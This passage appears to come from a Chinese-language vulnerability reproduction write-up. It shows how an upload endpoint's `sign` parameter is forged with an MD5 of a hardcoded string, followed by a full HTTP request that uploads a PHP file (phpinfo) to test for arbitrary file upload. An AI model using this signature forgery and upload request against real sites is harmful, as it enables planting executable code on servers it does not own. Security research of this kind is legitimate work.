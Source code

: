 [![](assets/1709022895-8e7b35c1e72c027aef292ea287be1f32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192116-286d4b02-d499-1.png)

那么就可以直接生成`sign`​了

```plain
<?php echo md5("md=upload&uid=1asdasfasfasfasfasfa");?>
```

那么继续复现

```plain
POST /server/index.php/start?md=upload&uid=1&sign=e8766abd8742eb67a2c07b089ecf636a HTTP/1.1
Host: wp.com
Cache-Control: no-cache
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=--------------------------570796120375390059114427
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 389

----------------------------570796120375390059114427
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-httpd-php

<?php phpinfo(); ?>
----------------------------570796120375390059114427--
```

上传后返回如下

[![](assets/1709022895-1e7a43c93aac1876bbc48ad5d83dc774.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226192125-2d8e0bee-d499-1.png)

解码后为 同步错误
